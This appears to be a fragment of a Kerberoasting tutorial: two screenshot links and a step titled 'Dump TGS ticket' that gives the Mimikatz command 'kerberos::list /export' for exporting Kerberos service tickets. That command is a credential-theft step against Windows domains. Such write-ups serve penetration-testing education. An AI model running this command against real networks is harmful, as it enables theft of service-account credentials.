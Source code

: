 <img src="/img/kerberosting/m2.PNG" alt="Getting-gz" width="1000" height="200"> 


Dump TGS ticket
```
kerberos::list /export
```

<img src="/img/kerberosting/m3.PNG" alt="Getting-gz" width="1000" height="200"> 
